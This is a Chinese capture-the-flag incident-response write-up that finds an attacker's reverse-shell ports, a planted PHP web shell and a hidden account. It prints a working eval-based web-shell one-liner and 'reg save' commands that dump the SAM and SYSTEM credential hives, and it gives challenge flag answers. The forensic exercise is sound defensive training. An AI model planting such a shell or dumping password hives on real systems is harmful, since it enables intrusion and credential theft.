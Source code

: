 ```
hack
```

## 应急响应1-9

题目描述

提交攻击者开放端口
`格式为：palu{xxx,xxx,xxx}`

根目录反弹 shell：192.168.31.11:1133 

PC2 传简历给 PC1 横向 192.168.31.11:8084 

webserver 的/tmp/r.sh 下存在反弹 shell：192.168.31.11:1144

```
palu{1133,1144,8084}
```

## 应急响应1-10

查看a.php

![image-20250517162706631](./img/image-20250517162706631.png)

```
<?php eval($_POST["00232"]); ?>
```

## 应急响应1-11

题目描述

提交攻击者留下的隐藏账户的密码 

`flag格式为：palu{xxxx}`

将sam文件dump下来，解密

```
reg save hklm\sam sam.hive
reg save hklm\system system.hive
```

![c227b82bdaf223965e36d2402178ae6](./img/c227b82bdaf223965e36d2402178ae6.png)
